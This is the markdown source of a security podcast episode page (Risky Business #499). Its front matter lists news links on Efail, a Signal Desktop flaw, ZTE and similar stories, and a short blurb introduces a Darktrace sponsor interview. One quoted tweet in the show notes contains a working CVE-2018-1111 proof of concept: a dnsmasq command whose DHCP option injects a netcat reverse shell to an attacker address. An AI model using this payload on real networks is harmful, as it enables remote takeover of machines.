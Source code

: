 ```yaml
---
layout: podcast
excerpt_separator: '<!--excerpt-above-->'
title: 'Risky Business #499 -- Is PGP actually busted and Signal pwnt? Noooope'
tagline: 'PLUS: Iran goes berserk while the White House sleeps at the wheel...'
author: patrick-gray
explicit: 'No'
permalink: RB499
sponsor: '-- none --'
categories:
    - risky-business
media_url: 'http://media2.risky.biz/RB499.mp3'
media_length: '70312034'
media_type: audio/mpeg
show_notes:
    -  title: 'Without Nuclear Deal, U.S. Expects Resurgence in Iranian Cyberattacks - The New York Times'
       link: 'https://www.nytimes.com/2018/05/11/technology/iranian-hackers-united-states.html'
       description: '' 
    -  title: 'How Two Persian Gulf Nations Turned The US Media Into Their Battleground'
       link: 'https://www.buzzfeed.com/kevincollier/qatar-uae-iran-trump-leaks-emails-broidy?utm_term=.huKLZy1gbo#.slEAJvVkZG'
       description: '' 
    -  title: 'National Security Council delays publication of cyber strategy over inclusion of ''offensive'' measures'
       link: 'https://www.cyberscoop.com/white-house-cyber-strategy-national-security-council-offensive-measures/'
       description: '' 
    -  title: 'Bolton eliminates White House Cybersecurity Coordinator position'
       link: 'https://www.cyberscoop.com/white-house-cybersecurity-coordinator/'
       description: '' 
    -  title: 'Lawmakers introduce bill to save top White House cyber job after Bolton eliminated it'
       link: 'https://www.cyberscoop.com/lawmakers-introduce-bill-save-top-cyber-job-government-bolton-eliminated/'
       description: '' 
    -  title: 'Ex-CIA employee identified as suspect in ''Vault 7'' leaks'
       link: 'https://www.cyberscoop.com/joshua-adam-schulte-cia-vault-7-suspect/'
       description: '' 
    -  title: 'Sebastian Schinzel on Twitter: "We''ll publish critical vulnerabilities in PGP/GPG and S/MIME email encryption on 2018-05-15 07:00 UTC. They might reveal the plaintext of encrypted emails, including encrypted emails sent in the past. #efail 1/4"'
       link: 'https://twitter.com/seecurity/status/995906576170053633'
       description: '' 
    -  title: '''Efail'' exploit can decrypt old emails that were previously encrypted - CyberScoop'
       link: 'https://www.cyberscoop.com/email-exploit-pgp-encrpytion-s-mime/'
       description: '' 
    -  title: 'Critical PGP and S/MIME bugs can reveal encrypted emails—uninstall now [Updated] | Ars Technica'
       link: 'https://arstechnica.com/information-technology/2018/05/critical-pgp-and-smime-bugs-can-reveal-encrypted-e-mails-uninstall-now/'
       description: '' 
    -  title: 'CVE-2018-1000136 - Electron nodeIntegration Bypass'
       link: 'https://www.trustwave.com/Resources/SpiderLabs-Blog/CVE-2018-1000136---Electron-nodeIntegration-Bypass/'
       description: '' 
    -  title: 'Security flaw in Electron impacts hundreds of desktop apps'
       link: 'https://www.cyberscoop.com/electron-remote-code-execution-xss-slack-skype/'
       description: '' 
    -  title: 'Michael Gianarakis on Twitter: "I don’t know man - as I said I wasn’t involved so I don’t know what was tested and when, what was covered during disclosure etc. All I was saying in my original tweet was that I didn’t read the post to say any specific app was vulnerable or not.… https://t.co/wVmG4FE0yI"'
       link: 'https://twitter.com/mgianarakis/status/995808224644186112'
       description: '' 
    -  title: 'Alfredo Ortega on Twitter: "Remote zero-click JavaScript code execution on signal desktop message app. Thanks @HacKanCuBa and @julianor https://t.co/YgT8akGfBI"'
       link: 'https://mobile.twitter.com/ortegaalfredo/status/995017143002509313'
       description: '' 
    -  title: 'Alfredo Ortega on Twitter: "And we''ll release the Signal-Desktop Remote code exec advisory (CVE-2018-10994) in some hours. Not a good week for privacy software. https://t.co/ElysIPAlvo"'
       link: 'https://twitter.com/ortegaalfredo/status/995912662130229248'
       description: '' 
    -  title: 'It only took five hours to close a critical vulnerability in Signal''s desktop client'
       link: 'https://www.cyberscoop.com/signal-desktop-remote-code-flaw/'
       description: '' 
    -  title: '''Disappearing'' Signal Messages Are Stored Indefinitely on Mac Hard Drives - Motherboard'
       link: 'https://motherboard.vice.com/en_us/article/kzke7z/signal-disappearing-messages-are-stored-indefinitely-on-mac-hard-drives'
       description: '' 
    -  title: 'China''s ZTE says main operations have ceased after US ban'
       link: 'http://money.cnn.com/2018/05/09/technology/business/zte-corporation-cease-operations-us-sanctions/index.html?sr=twCNN050918business0300PMStory'
       description: '' 
    -  title: 'Lucas Tomlinson on Twitter: "JUST IN: Pentagon orders all stores on U.S. military bases worldwide to ban phones and telecom equipment from Chinese companies Huawei and ZTE, following warnings from top U.S. intelligence officials the Chinese companies could be spying on Americans"'
       link: 'https://mobile.twitter.com/lucasfoxnews/status/991692769008717824'
       description: '' 
    -  title: 'Donald J. Trump on Twitter: "President Xi of China, and I, are working together to give massive Chinese phone company, ZTE, a way to get back into business, fast. Too many jobs in China lost. Commerce Department has been instructed to get it done!"'
       link: 'https://mobile.twitter.com/realdonaldtrump/status/995680316458262533'
       description: '' 
    -  title: 'Microsoft Enabling Javascript in Excel Has Security Pros Anxious | WIRED'
       link: 'https://www.wired.com/story/microsoft-excel-javascript/'
       description: '' 
    -  title: 'Researcher Runs Coinhive Cryptominer in Excel Just Days After Microsoft Announces JavaScript Custom Functions'
       link: 'https://blog.barkly.com/excel-javascript-custom-functions-cryptomining-malware'
       description: '' 
    -  title: 'Researchers Come Up With a Way to Launch Rowhammer Attacks via Network Packets'
       link: 'https://www.bleepingcomputer.com/news/security/researchers-come-up-with-a-way-to-launch-rowhammer-attacks-via-network-packets/'
       description: '' 
    -  title: 'Georgia governor vetoes cyber bill that would criminalize “unauthorized access” | Ars Technica'
       link: 'https://arstechnica.com/tech-policy/2018/05/georgia-governor-vetoes-cyber-bill-that-would-criminalize-unauthorized-access/'
       description: '' 
    -  title: 'Russian Troll Farm Hijacked American Teen Girls’ Computers for Likes'
       link: 'https://www.thedailybeast.com/russia-troll-farm-hijacked-american-teen-girls-computers-for-likes'
       description: '' 
    -  title: 'Dutch ditch Kaspersky on fears of Russian government influence'
       link: 'https://www.cyberscoop.com/dutch-kaspersky-ban/'
       description: '' 
    -  title: 'Possible Kaspersky sanctions meet resistance inside U.S. government'
       link: 'https://www.cyberscoop.com/kaspersky-sanctions-treasury-department-national-security-council/'
       description: '' 
    -  title: 'Wyden calls for FCC investigation into cell-phone tracking used by law enforcement'
       link: 'https://www.cyberscoop.com/wyden-calls-fcc-investigation-cell-phone-tracking-used-law-enforcement/'
       description: '' 
    -  title: 'Kia‏☆ on Twitter: "this isnt a joke, try out https://t.co/QKa5nNOKjN, you can find the current location of a phone (not just with cell tower info, it can force AGPS) with just *its phone number*; the demo site requires you reply to an SMS but there''s no technical requirement against that! https://t.co/kfMDU2qxjZ"'
       link: 'https://mobile.twitter.com/alt_kia/status/995115906299715584'
       description: '' 
    -  title: 'Government would be barred from mandating crypto backdoors under House bill'
       link: 'https://www.cyberscoop.com/crypto-backdoor-mandate-ban-house-legislation-zoe-lofgren/'
       description: '' 
    -  title: 'Symantec''s stock plummets after announcement of internal audit'
       link: 'https://www.cyberscoop.com/symantec-audit-stock-plummet/'
       description: '' 
    -  title: 'Lawmakers call for action following revelations that APT28 posed as ISIS online'
       link: 'https://www.cyberscoop.com/lawmakers-call-action-following-revelations-apt28-posed-isis-online/'
       description: '' 
    -  title: 'Counterrorism Officials Concerned About Technological Advances of Jihadists in the US'
       link: 'https://www.bleepingcomputer.com/news/technology/counterrorism-officials-concerned-about-technological-advances-of-jihadists-in-the-us/'
       description: '' 
    -  title: 'Vigilante Hacks Government-Linked Cyberespionage Group - Motherboard'
       link: 'https://motherboard.vice.com/en_us/article/qvn4kq/vigilante-hacks-government-zoopark-cyberespionage'
       description: '' 
    -  title: 'Pakistani military leverages Facebook Messenger for wide-ranging spyware campaign'
       link: 'https://www.cyberscoop.com/pakistani-military-spyware-stealth-mango-tangelo-lookout/'
       description: '' 
    -  title: 'DDoS Attacks Leverage UPnP Protocol to Avoid Mitigation'
       link: 'https://www.bleepingcomputer.com/news/security/ddos-attacks-leverage-upnp-protocol-to-avoid-mitigation/'
       description: '' 
    -  title: 'Shadowy Hackers Accidentally Reveal Two Zero-Days to Security Researchers'
       link: 'https://www.bleepingcomputer.com/news/security/shadowy-hackers-accidentally-reveal-two-zero-days-to-security-researchers/'
       description: '' 
    -  title: 'Windows 10 OpenSSH Client Installed by Default in April 2018 Update'
       link: 'https://www.bleepingcomputer.com/news/microsoft/windows-10-openssh-client-installed-by-default-in-april-2018-update/'
       description: '' 
    -  title: 'Malicious Apps Get Back on the Play Store Just by Changing Their Name'
       link: 'https://www.bleepingcomputer.com/news/security/malicious-apps-get-back-on-the-play-store-just-by-changing-their-name/'
       description: '' 
    -  title: 'Multiple OS Vendors Release Security Patches After Misinterpreting Intel Docs'
       link: 'https://www.bleepingcomputer.com/news/security/multiple-os-vendors-release-security-patches-after-misinterpreting-intel-docs/'
       description: '' 
    -  title: 'Barkın Kılıç on Twitter: "#CVE-2018-1111 tweetable PoC :) dnsmasq --interface=eth0 --bind-interfaces --except-interface=lo --dhcp-range=10.1.1.1,10.1.1.10,1h --conf-file=/dev/null --dhcp-option=6,10.1.1.1 --dhcp-option=3,10.1.1.1 --dhcp-option="252,x''&nc -e /bin/bash 10.1.1.1 1337 #" cc: @cnbrkbolat… https://t.co/NMthW41Xql"'
       link: 'https://twitter.com/Barknkilic/status/996470756283486209'
       description: '' 
    -  title: 'Morning mail: Ecuador''s costly Assange spy operation | Australia news | The Guardian'
       link: 'https://www.theguardian.com/australia-news/2018/may/16/morning-mail-assange-security-cost-what-millennials-think-remembering-tom-wolfe'
       description: '' 
    -  title: 'Evil Mainframe Penetration Testing Classes'
       link: 'http://evilmainframe.com/'
       description: '' 
    -  title: 'Evil Mainframe: Mainframe Penetration Testing Registration, Tue, Jun 12, 2018 at 9:00 AM | Eventbrite'
       link: 'https://www.eventbrite.com/e/evil-mainframe-mainframe-penetration-testing-registration-45921480384'
       description: '' 
    -  title: Darktrace
       link: 'https://www.darktrace.com/'
       description: '' 

---
```

In this week's weekly show we're just going to drill in to the week's extra long security news section with Adam Boileau then go straight to the sponsor interview. I've got a fantastic feature interview for you this week, but I'm going to publish it outside of the news show. It was either that or run stupidly long or cut too much from everything to make it all fit.

This week's sponsor interview is a good one though. We're chatting with the team behind <a href='https://darktrace.com/'>DarkTrace</a>. They make a machine learning-backed network monitor. A key different with this kit is it actually gets involved on the network. If it sees something it's confident is attacker behaviour it will start spraying TCP resets to boot them off the network. 

This is something the IPS systems of old used to do but it's an approach that fell out of favour. We'll find out why that approach was discarded and why it's coming back, as well as generally discuss the role of machine learning in security with a company that has invested in it heavily. This isn't a "for or against" interview segment. This is a discussion with one company that is getting value out of the approach, so stick around for that.

The show notes/news items are below, and you can follow <a href='https://twitter.com/metlstorm'>Adam</a> or <a href='https://twitter.com/riskybusiness'>Patrick</a> on Twitter if that's your thing.
